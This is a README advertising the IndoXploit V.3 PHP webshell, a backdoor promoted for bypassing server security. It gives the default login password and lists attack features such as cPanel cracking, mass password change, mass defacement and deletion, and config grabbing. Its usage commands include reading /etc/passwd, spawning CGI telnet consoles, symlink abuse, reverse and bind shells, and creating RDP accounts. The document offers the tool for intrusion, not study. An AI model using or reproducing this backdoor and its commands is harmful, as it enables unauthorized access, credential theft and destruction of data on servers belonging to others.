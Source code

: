# IndoXploit Webshell V.3

IndoXploit webshell V.3 is an PHP based webshell or backdoor with unique and usefull features. This webshell is originally coded by **agussetyar** from **IndoXploit Coders Team**. IndoXploit Shell has been mentioned repeatedly by the coder that it will make you easily bypass server security. With this shell you can comfortably bypass the server firewall from most secure servers. It is one of the hacker's most preferred backdoor shell.

---

## Screenshot
- login
![idx](https://raw.githubusercontent.com/linuxsec/indoxploit-shell/master/screenshot/indoxploit-login.PNG "Login Shell")
Default Password : **IndoXploit**

- interface
![idx](https://raw.githubusercontent.com/linuxsec/indoxploit-shell/master/screenshot/idx-interface.PNG "Shell Interface")
Webshell Interface

## Features
- Mass Password Change
- Fake Root
- Cpanel Crack
- Mass Deface/Delete File
- Zone-H Mass Submit

## How to Use
 - Read File
 usage: rf [filename]
 example: rf /etc/passwd

 - Spawn File/Tools 
 usage: spawn [name]

 [name]
- Adminer (adminer)
 - WebConsole (webconsole)
 - CGI Telnet 1 (cgitelnet1)
 - CGI Telnet 2 (cgitelnet2)
 - PHPINFO (phpinfo)

 example:
 spawn adminer
 spawn webconsole
 spawn cgitelnet1

- Jumping
usage: jumping

- Config Grabber
usage: idxconfig

 - ***Symlink***
 ~~~
 usage: symlink
~~~
 - ***Reverse Shell***
***[Back Connect]***
usage: rvr bc [IP] [PORT] [TYPE]
example:
~~~
rvr bc 127.0.0.1 1337 bash
rvr bc 127.0.0.1 1337 perl
~~~

***Bind Port***
usage: rvr bp [PORT] [TYPE]
example:
~~~
rvr bp 1337 perl
~~~

 - ***KRDP - Create RDP Account (for windows server only)***
 ~~~
 usage: krdp
~~~
 - ***Logout From Shell***
 ~~~
 usage: logout
~~~
 - ***Kill Backdoor***
~~~
usage: killme
~~~

 ## Contribute
 Drop an email at **shu@indoxploit.or.id** and tell us what your suggestions about how to improve this webshell.

